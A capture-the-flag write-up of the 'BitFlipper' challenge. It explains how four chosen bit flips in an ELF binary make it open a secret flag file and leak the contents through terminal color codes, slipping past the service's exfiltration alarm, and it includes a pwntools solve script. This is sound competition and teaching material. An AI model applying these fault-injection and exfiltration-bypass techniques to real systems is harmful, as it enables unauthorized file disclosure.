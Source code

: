 # BitFlipper

When we first connect to the service, we are prompted with:

```-------------------------------------------------------
      Bitflipper - ELF Fault Injection Framework
-------------------------------------------------------
Test program md5:  30acc4aee186d6aef8e9e2036008a710
-------------------------------------------------------
How many faults you want to introduce?```

After playing around with this for a while, I discover:
- This service flips the bits of an ELF binary
- You can introduce at most 4 faults
- Server runs the binary
- Introducing 0 bits does a fancy directory listing
- Server will dump any core files in the directory

The files are as follows:
```README
abc.jpg
archive.zip
beta.doc
celtic.png
dir
secret_flag.txt
test.doc
version.txt
```

If we make the binary a core file, then the server will give it to us! We can do this by looking at the wikipedia for ELF headers (https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) and see that if the value at offset 0x10 is 4, then it is a core file. So we flip the byte at offset 0x10 to a 4, and the server returns the ELF binary.

I first started with static analysis. Loading it into IDA, we begin to reverse engineer it. Here is what it does:

1) opens current directory and loads all filenames into an array
2) opens ".dircolors" and loads the value before a newline into a global array, we will call this the colors array
3) iterates through filename array and prints the filename the color loaded in the colors array

We only have four bits to flip, so that suggests that our changes will have to be within the existing code. First thing's first, the absolute necessity is to have an open filestream to the secret_flag.txt. Otherwise, we would never be able to access its contents. Since we only have four bits, we have to reuse code. Looking at step 2 above, in that function we see that the binary opens a file, reads it into a buffer, then gets loaded into a buffer.

To find out how to open the file, I began performing dynamic analysis. Setting a breakpoint right before the open function where the string pointer to ".dircolors" is loaded into rdi, I find that right before it's loaded, rdi is pointing to a filename! More specifically, the first file in my directory. So, if we change this instruction to load the string pointer to some register we don't care about, then the open function performs open on the first file! I changed mov rdi, filepointer to mov rdx, filepointer using the bit flip at offset 0xdb0*8+5.

Now that we have a open primitive, we want to get it to open our flag file. To do this, we can look in the main function and see that there is a check for the first character of the filename in the directory:

```
v11->d_name[0] > 47 && v11->d_name[0] <= 122
```

So we can actually change the lower bound of this ascii check to something higher than ord('d'). Thus, everything before secret_flag.txt will be cut off, and the flag will be the first file which then gets passed to open. I did this by flipping the bit at 0xfcf*8+6.

Now, we have to read the flag that is loaded into memory with 2 bits left. After the flag contents is loaded into a buffer, it eventually gets freed. So I thought if you change free(buf) to printf(buf), then it would print the flag! We can do this with 2 bits too. However, when I tried this, I got: 

```
ALARM!!
The output contained the content of a local file.
This is in violation of the security policy --> the exfiltration attempt has been blocked!!
```

Drats. What kind of alarm is this >:(

So the correct way to do it is to change the newline check when iterating through the buffer from if ( *((_BYTE *)buf + v1) == 10 ) to if ( *((_BYTE *)buf + v1) != 10 ). This ensures that every character in buf gets put into the colors array, instead of just the last character. I did this using offset 0xe85*8. Next we look in main and see that there is a check to only print each filename once:

```
v5 = 0;
    for ( k = 0; k <= 15 && v5 == 0 && qword_202040[k]; ++k )
    {
      if ( strstr(*j, *qword_202040[k]) )
      {
        printf("\x1B[%dm%s\x1B[0m\n", (unsigned int)(*((_DWORD *)qword_202040[k] + 2) + 30), *j, v4);
        v5 = 1;
      }
    }
 ```

The colors array is iterated, however it only gets printed once because of v5. So, if we change v5 = 1 to v5 = 0, then everything in colors array will get printed. This is offset 0x10fb*8.

Now using these four bit flips, we run it on the server and get:

```
['\x1b[-18msecret_flag.txt\x1b[0m', '\x1b[80msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[98msecret_flag.txt\x1b[0m', '\x1b[84msecret_flag.txt\x1b[0m', '\x1b[90msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[94msecret_flag.txt\x1b[0m', '\x1b[77msecret_flag.txt\x1b[0m', '\x1b[91msecret_flag.txt\x1b[0m', '\x1b[79msecret_flag.txt\x1b[0m', '\x1b[82msecret_flag.txt\x1b[0m', '\x1b[92msecret_flag.txt\x1b[0m', '\x1b[83msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', 'secret_flag.txt', '\x1b[-18mtest.doc\x1b[0m', '\x1b[80mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[98mtest.doc\x1b[0m', '\x1b[84mtest.doc\x1b[0m', '\x1b[90mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[94mtest.doc\x1b[0m', '\x1b[77mtest.doc\x1b[0m', '\x1b[91mtest.doc\x1b[0m', '\x1b[79mtest.doc\x1b[0m', '\x1b[82mtest.doc\x1b[0m', '\x1b[92mtest.doc\x1b[0m', '\x1b[83mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', 'test.doc', '\x1b[-18mversion.txt\x1b[0m', '\x1b[80mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[98mversion.txt\x1b[0m', '\x1b[84mversion.txt\x1b[0m', '\x1b[90mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[94mversion.txt\x1b[0m', '\x1b[77mversion.txt\x1b[0m', '\x1b[91mversion.txt\x1b[0m', '\x1b[79mversion.txt\x1b[0m', '\x1b[82mversion.txt\x1b[0m', '\x1b[92mversion.txt\x1b[0m', '\x1b[83mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', 'version.txt', '', '-------------------------------------------------------']
```

Extracting the decimal values before m, ['80', '87', '98', '84', '90', '87', '94', '77', '91', '79', '82', '92', '83', '97', '97'], then converting it to ascii gives us gibberish. The reason is because of these two lines:

```
*((_DWORD *)v3 + 2) -= 48;
and
printf("\x1B[%dm%s\x1B[0m\n", (unsigned int)(*((_DWORD *)qword_202040[k] + 2) + 30), *j, v4);
```

When the value is being loaded, it gets subtracted by 48. When it is being printed, 30 is added to its value. Therefore we have to add 18 to each decimal value for the flag.

Solve script:
```python
from pwn import *
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1
p=remote('61421a06.quals2018.oooverflow.io', 5566)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

openheap=0xdb0*8+5
lowlim = 0xfcf*8
jnz = 0xe85*8
foundcolor = 0x10fb*8
p.sendline("4")
p.sendline(str(jnz))
p.sendline(str(openheap))
p.sendline(str(lowlim+6))
p.sendline(str(foundcolor))
p.recvuntil("now...")
p.recvuntil("-------------------------------------------------------")
sice = p.recvuntil("-------------------------------------------------------").strip().split("\n")

flag = ""
for i in sice:
    flag += chr(int(i.strip("\x1b[").split("m")[0]) + 18)
    print flag

p.interactive()
```

## Flag: bitflip_madness
